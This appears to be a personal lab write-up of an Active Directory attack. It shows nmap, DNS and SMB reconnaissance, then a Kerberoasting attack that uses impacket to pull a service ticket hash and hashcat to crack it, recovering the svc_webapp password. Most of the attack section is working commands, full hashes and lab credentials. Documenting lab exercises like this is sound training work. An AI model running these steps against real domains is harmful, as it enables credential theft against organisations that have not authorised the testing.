

# Information:

## Attack flow

# Recon
## Nmap
### TCP ports
```bash
┌ 🐧 (WSL) 🔉 zsh  👤 cgk ⭝ pumpkin
└[ /mnt/h/Projects/VDT/VDT-AD-LAB ]
❯ sudo nmap -sC -sV -A -oA nmap/details -p `for i in $(nmap --min-rate 10000 -p- -Pn -oA nmap/allports 192.168.198.10 | grep -E "^[0-9]" | awk -F/ '{print $1}'); do echo -n $i,; done` 192.168.198.10
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-22 19:03 +07
Nmap scan report for 192.168.198.10 (192.168.198.10)
Host is up (0.0014s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vdt.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49666/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (97%)
Aggressive OS guesses: Microsoft Windows Server 2019 (97%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: VDT-DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
|_nbstat: NetBIOS name: VDT-DC01, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:ac:78:1d (VMware)
|_clock-skew: -1s
| smb2-time:
|   date: 2025-05-22T12:04:38
|_  start_date: N/A

TRACEROUTE (using port 135/tcp)
HOP RTT     ADDRESS
1   1.76 ms 172.21.144.1 (172.21.144.1)
2   2.80 ms 192.168.198.10 (192.168.198.10)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.55 seconds
```

### UDP ports
```bash
┌ 🐧 (WSL) 🔉 zsh  👤 cgk ⭝ pumpkin
└[ /mnt/h/Projects/VDT/VDT-AD-LAB ]
❯ sudo nmap -sU -p- --min-rate 10000 -oA nmap/alludp 192.168.198.10
Nmap scan report for 192.168.198.10 (192.168.198.10)
Host is up (0.0017s latency).
Not shown: 65531 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp
137/udp open  netbios-ns

Nmap done: 1 IP address (1 host up) scanned in 13.68 seconds
```


## DNS - UDP/TCP 53
```bash
❯ dig @192.168.198.10 vdt.local                     · 22/05/25 19:19

; <<>> DiG 9.18.33-1~deb12u2-Debian <<>> @192.168.198.10 vdt.local
; (1 server found)
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 54026
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;vdt.local.                     IN      A

;; ANSWER SECTION:
vdt.local.              600     IN      A       192.168.198.10

;; Query time: 0 msec
;; SERVER: 192.168.198.10#53(192.168.198.10) (UDP)
;; WHEN: Thu May 22 19:19:15 +07 2025
;; MSG SIZE  rcvd: 54
```

## SMB - TCP 445
### SMBmap
```bash
❯  smbmap -H 192.168.198.10 -u analyst -p Abc12345                                                                · 22/05/25 19:47
[+] IP: 192.168.198.10:445      Name: 192.168.198.10                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
```

## RPC - TCP 445

# `svc-webapp`
## Kerberoasting
When you want to authenticate to some service using Kerberos, you contact the DC and tell it to which system service you want to authenticate. It encrypts a response to you with the service user’s password hash. You send that response to the service, which can decrypt it with it’s password, check who you are, and decide it if wants to let you in.

In a Kerberoasting attack, rather than sending the encrypted ticket from the DC to the service, you will use off-line brute force to crack the password associated with the service.

Most of the time you will need an active account on the domain in order to initial Kerberoast, but if the DC is configured with UserAccountControl setting “Do not require Kerberos preauthentication” enabled, it is possible to request and receive a ticket to crack without a valid account on the domain.

### Exploitation Kerberoasting:
We're using `GetUserSPNs.py` script from `impacket` to get a list of service usernames which are associated with normal user accounts. It will also get a ticket that we can crack. The script identified a user `svc_webapp`:
```bash
❯ impacket-GetUserSPNs -dc-ip 192.168.198.10 vdt.local/analyst:Abc12345 -request -save -outputfile kerberoast_hashes.txt

Impacket v0.11.0 - Copyright 2023 Fortra

ServicePrincipalName   Name        MemberOf  PasswordLastSet             LastLogon  Delegation 
---------------------  ----------  --------  --------------------------  ---------  ----------
HTTP/webapp.vdt.local  svc_webapp            2025-05-22 07:53:25.656591  <never>               


[-] CCache file is not found. Skipping...
```

It also gives us a ticket, which we can crack it offline to get the user's password
```bash
❯ cat kerberoast_hashes.txt  
$krb5tgs$23$*svc_webapp$VDT.LOCAL$vdt.local/svc_webapp*$350758da4276d75b185452696a6ea513$e3b372efdd7cd6588f4be376b32b2439615d213a1867b445b8a7ab0f3c6f8e3baa7323e6b1ee9cadbeb8c9f4de7c867643bd6e59e3f96ca4e84a8a9ec1e1c8643556f88dc94848287028a8c7bb7679bad4cffda0ba09b47a7bcdb50b5d93c132a5f5551e98498c55dc897c6657ce74b51f6a0a21203c608c40ffe65c88bc8cb4fe387f51c80b901f7241ed973224e0974456438b1956847f795339fd2937c0d4be7551f3e575e1dc1037f9b7088dd7eb9d924413de67f09da4a729da6c39b157248167190c067b9d9611e9af3c998c5887f370ef374c64510fa4cadadd54952c5e623a43221ed89fc8aad0358de2ce7c96a0936fafe136f20c9be2d8cf5da928dd956e6fd02014d118084bf3385d40297d4bc8dc89c862ee80451ce192f066e597ccb5fdac04997739ece4e156589e0dd726343933f5c7b58c16b31331c4934cf5416289ba92b1e1e34c812954c159935680e127487207a2cf154d0fd918d7f54b57a440007c09a1994e2a1d8a523e71cd3d53cd5b7b3581d03730d7fb39ef3d98e8e5cb00732d306020f6637a5c7286d51557a0f26f5ac593ffdfdadaa2ff54c3750fe333a0cc9eb7e8b21282109ada64fa5d3f68f616d7ad81d62929aadf5eb2424fbc0bb6a90c3e35f36e5cc6147b7e029233f8522bc24463b91d611f767c04086bcc0d27a29ab1dccfd5aa432e40a2c815740bd0eeb8c0bea72d8cca0a0cce9c0e312168f2dff84fd5cf9b72e93bdb859f754e68a0bb75b631760dcce989abfceeea3bc1c47181106061b21a56ed27eaa4fefa1a11850f1990604834999643ae862d3313bdf19e68b85bf85b84c40f64263ecb83d914796dacfd86ef742a20d6164fd222b9a0ab52868258cfd46fd0345aa4f7fba426fb5e1c050b042f24a161a4b17008df5da1dd9de782de2d499cd9a532129039d34db084130501fabf972ff5fb1ebf968c54b68dff36eb13d63d7828d86a99b2a75c8b4321aa2dd0b99f35ada07defaf68b5f8bf826f0dc0d0c8550c0f4a315fec590a1e4c9d18c61a6ea2ab24f659cb69e366e864e97e120250bec1533fdcdb8f42a2ec61f2e8f980e74f61ee6a40bdc70e885849d065c254b97ba95e9e7ca7b28a5c21f5552c291af66bba5dec057c58460d886e11ff0fd18829bc42dabc58c8f3db1a39c8a4a74d8fc9a60f82e1185639d0f5748eda10c9f16287d326208a4c8492fcf1849512c113efa3a64e7de4e6d963be636e35ec087340e3050b8c2e592ac517be0b50448b0e0e9bf4e5b0ec2e0be3102e51933149b42834acaad09019094cd1a92cfdcc5b6af5e61d7f8f6c5be95aae05c4a7a3e1543aa6fabfbaa50d60d9efefe23259ca7339f4b47ec27229e3d22b34a7ed1f7c8a2e9290700c065a076d3a325160e40519aecb9a3a3b32d615808aa3c4e4cc6ba2499465dc238819272a639db395f1f6075ced51a1a45a43cc

```


#### Decryption
First, we will look for the hash type of the ticket in the hashcat example script
```bash
❯ hashcat --example-hash | less 
...snip...
Hash mode #13100
  Name................: Kerberos 5, etype 23, TGS-REP
  Category............: Network Protocol
  Slow.Hash...........: No
  Password.Len.Min....: 0
  Password.Len.Max....: 256
  Salt.Type...........: Embedded
  Salt.Len.Min........: 0
  Salt.Len.Max........: 256
  Kernel.Type(s)......: pure, optimized
  Example.Hash.Format.: plain
  Example.Hash........: $krb5tgs$23$*user$realm$test/spn*$b548e10f5694a...24d9a [Truncated, use --mach for full length]
  Example.Pass........: hashcat
  Benchmark.Mask......: ?b?b?b?b?b?b?b
  Autodetect.Enabled..: Yes
  Self.Test.Enabled...: Yes
  Potfile.Enabled.....: Yes
  Custom.Plugin.......: No
  Plaintext.Encoding..: ASCII, HEX

...snip...
```

Then, we will crack it with hashcat mode 13100
```bash
❯ hashcat -m 13100 -a 0 kerberoast_hashes.txt/usr/share/wordlists/rockyou.txt --force                            · 22/05/25 19:41
hashcat (v6.2.6) starting...
...snip...
$krb5tgs$23$*svc_webapp$VDT.LOCAL$vdt.local/svc_webapp*$f4a0894b2ce321be8e48ac73743b7088$6e1f259959be03b8e207347d3a04b188398c48cc0535dab5b60e7cdb1f2aadf05f5a4a6d13504b60f84533412ac432bffbeb22f15addaacb70bd0f8a588252126a3d92fa110b8311be3d62c9c88079ce037185f4d6b78c8c79afc2e95f84b5456be915cab95132fdd790c69dda0e833266b96e8cc3c659b201984b05d2f00de7ca810bcc8798bc6d4598122f5cfd7e3743df99d90b55d89eb2e332f3686cb8fdaa7b391a1c3d5a42fcda134dfc9c462bafe51fe50a725e5c469cc275658c73c863a97898059df7d4ae09a6254de6bdf0f87ba9501eff219effbfc038078cf15b4e229e1599db3dbcde98102dc993404964d858c349edd9cf1c80a4c97d29fe11027ce129d70cbc2b28bd42a4a1e82a7e2f4831866bee3087471235939af7da3e325016e071b6454d9a1c341d5b47da170b5f857435ca2525ddfaab64e98777f8465aa6fa1f751be37b1d2f7c16a0ffe614db36a5686c08b0c70c2dfbc461e74d0fae34fcb01a8a0672f7adaf3479857c8d9b76257fb8790a67157d8f8ebbd1faf05051bd987abff4075621c6a226d1751802f20603af63829ff0c7754c8695d03db7ceb36a8ef9a73f96ff059763b67d76d5d680d44816ca4ad04415febaefca0eb7d27c95105b77ba20cf4b2cfbac300da85f4a7a5cb8b7bc1af17d90613ce03f46c236a152edd0740dfeb8222a52a371005cf1aac7c6b45f82b43478bbf3784dc801b8fc4c08a010012cc4b4ee6a42f5c9316a1213fa5a60c4139698f8263ad6ae98b848eaf977daa4effe4bb696f0f3502e3c45d23c64522d61ea49d789b6e055196c41fb74398b6f4ea0f4e7235d02e889a1c46313822e40a505a6c7d69899086e10d9088b50524d76cad985eb5f8786b67925d98eab8be89e96bf4412af553f1902f4872ee5cfc0e69937581bbf76dc531e28008d39c84d91e122b652401d0ef2c6701dc86410a309e0575771c24cae0d8069c8b706850adc5a42dcfc4f410dd5095c17d2148ab9a68316767ba1f8f71600058ceb5f7eb7f0b79ba1759bc536566258388db66b8d1491296ba5e552c1af8c68b643947a5672a7c327bb0ac25175202f140948837e3c592ef21131f21fc5e7188ae759f450bfedd299541a9043a458e9f32b46f1e18bc1c0f7b00c3b649f8c755e147d7c1de65e13e123ed6366a5df6b1a27970c2c8c377b0a7d65036bb7d0044281e3e0582b1d8a6b640caafb6598f9165de5a33df44d31ea3613c09aaa6db3cc12479cdeba12de51cac2bcfd65eb7fa8417ad5260222dbd4ce28567757ca3ee0085a95825f2c5b5cb158766cb1311ce95f77a7ca68d0ca4d4c62f6bcf4f4a1bdf3fc5131a7d4fa87639a71599dcc35399f6f6bc86541ed838a4c2ea2be77bb24ef57740c603aed4ffa2be11ac7e90483b77c6b3314c7eea15764c552335a0e25aa982bc33f208b8a340fe53a8a056f9ea34881:Abc123456
```

-> so we have found the credential `svc_webapp:Abc123456`

